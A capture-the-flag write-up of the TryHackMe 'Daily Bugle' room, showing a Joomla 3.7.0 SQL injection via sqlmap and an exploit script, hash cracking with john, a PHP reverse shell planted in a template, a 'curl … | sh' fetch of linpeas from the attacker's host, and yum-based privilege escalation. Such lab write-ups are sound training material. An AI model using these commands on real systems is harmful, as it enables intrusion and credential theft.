 ```yaml
---
title: TryHackMe - Daily Bugle
layout: post
categories:
- TryHackMe
tag:
- sqli,
- yum,
- joomla
image: "/assets/img/daily-bugle.png"
image_alt: daily-bugle
---
```


Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges.

<br>

## 1. Deploy

Deploy the machine - it may take up to 2 minutes to configure. 

<br>

### 1.1 Access the web server, who robbed the bank?

As usual, let's do a nmap scan first.

```
$ nmap -sSV 10.10.139.115
```

![nmap](/assets/img/tryhackme/daily-bugle/nmap.png)

We found three open port. Theese are 22/tcp SSH, 80/tcp HTTP and 3306/tcp MYSQL.

Let's visit the homepage. Let's see what we can find.

We found the robber. It's a spiderman.

![home](/assets/img/tryhackme/daily-bugle/home.png)

**Answer: `spiderman`**

<br>

---

<br>

## 2. Obtain User and Root

Hack into the machine and obtain the root user's credentials.

<br>

### 2.1 What is the Joomla version?

Now, let's do a gobuster scan.

```
$ gobuster dir -u http://10.10.139.115/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/img/tryhackme/daily-bugle/gobuster.png)

Let's do a scan using joomscan to find the Joomla version.

```
$ joomscan --url http://10.10.139.115/
```

![joomscan](/assets/img/tryhackme/daily-bugle/joomscan.png)

We found the Joomla version. It is 3.7.0.

**Answer: `3.7.0`**

<br>

_Instead of using SQLMap, why not use a python script!_

### 2.2 What is Jonah's cracked password?

With the Joomla version we found, we now search in exploit-db and see if we can find anything. 

![search](/assets/img/tryhackme/daily-bugle/search.png)

Yes, we found the vulnerability. [CVE-2017-8917](https://www.exploit-db.com/exploits/42033).

![db](/assets/img/tryhackme/daily-bugle/db.png)

You can progress using **`sqlmap`** here, but I will use a python script written for faster results. Still below is the code for sqlmap

![sql](/assets/img/tryhackme/daily-bugle/sql.png)

```
$ sqlmap -u "http://10.10.139.115/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![sqlmap](/assets/img/tryhackme/daily-bugle/sqlmap.png)

I will use the python script [here](https://github.com/stefanlucas/Exploit-Joomla).

```
$ wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
$ python joomblah http://10.10.139.115/
```

![joomblah](/assets/img/tryhackme/daily-bugle/joomblah.png)

We found this hash code for Jonah's password.

```
> $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

Let's crack this hash.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.hash
```

![john](/assets/img/tryhackme/daily-bugle/john.png)


**Answer: `s********123`**

<br>

### 2.3 What is the user flag?

Go to the administrator directory and login with **`jonah:s********123`**

We are looking for a suitable place for any reverse shell. We go to where the .php pages are located.

First, we click on **`Templates`** from the left sidebar.

![step1](/assets/img/tryhackme/daily-bugle/step1.png)

Then we click on **`Templates`**  again on the page we go to.

![step2](/assets/img/tryhackme/daily-bugle/step2.png)

Then we click on **`Beez3 Details and Files`**.

![step3](/assets/img/tryhackme/daily-bugle/step3.png)

And we have reached the source files, and from here we can put our reverse shell in the index.php file.
You can find the reverse shell [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

![step4](/assets/img/tryhackme/daily-bugle/step4.png)

Don't forget to change this.

![change](/assets/img/tryhackme/daily-bugle/change.png)

Now, we modify the contents of index.php.

![index](/assets/img/tryhackme/daily-bugle/index.png)

We set up a netcat listener before opening the index.php page.

```
$ nc -nlvp 4444
```

Now browse [http://10.10.139.115/templates/beez3/index.php](http://10.10.139.115/templates/beez3/index.php) and you should get a reverse shell.

And we are inside.

![in](/assets/img/tryhackme/daily-bugle/in.png)

The first thing on the server was to list the /home directory and find users.

![ls](/assets/img/tryhackme/daily-bugle/ls.png)

I tried to enter the jjameson directory but it didn't work. So I decided to download [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/20230312) and run it on the target machine.

First I set up my own machine. I am running the following code in the directory where the linpeas.sh file is located.

```
$ sudo python -m http.server 80
```

Then I run the following code on the target machine.

```
$ curl 10.8.86.168/linpeas.sh | sh 
```

And it worked, let's see what we find.

![run](/assets/img/tryhackme/daily-bugle/run.png)

We found a password but I have no idea what password it is.

![pass](/assets/img/tryhackme/daily-bugle/pass.png)

Let's try it for jjameson.

![jj](/assets/img/tryhackme/daily-bugle/jj.png)

We also found the jjameson password**`(**********)`**

Now we can go to the jjameson directory and get the user flag.

```
$ cd /home/jjameson
$ ls -la
$ cat user.txt
```

![user](/assets/img/tryhackme/daily-bugle/user.png)

<br>

### 2.4 What is the root flag?

Now, I check by doing `sudo -l`.

![yum](/assets/img/tryhackme/daily-bugle/yum.png)

I'm looking at [gftobins](https://gtfobins.github.io/gtfobins/yum/) to get root privileges using yum.

And let's try this.

![gtfobins](/assets/img/tryhackme/daily-bugle/gtfobins.png)

Yes, it worked.

![privesc](/assets/img/tryhackme/daily-bugle/privesc.png)

```
$ cd /root
$ ls -la
$ cat root.txt
```

![root](/assets/img/tryhackme/daily-bugle/root.png)

<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
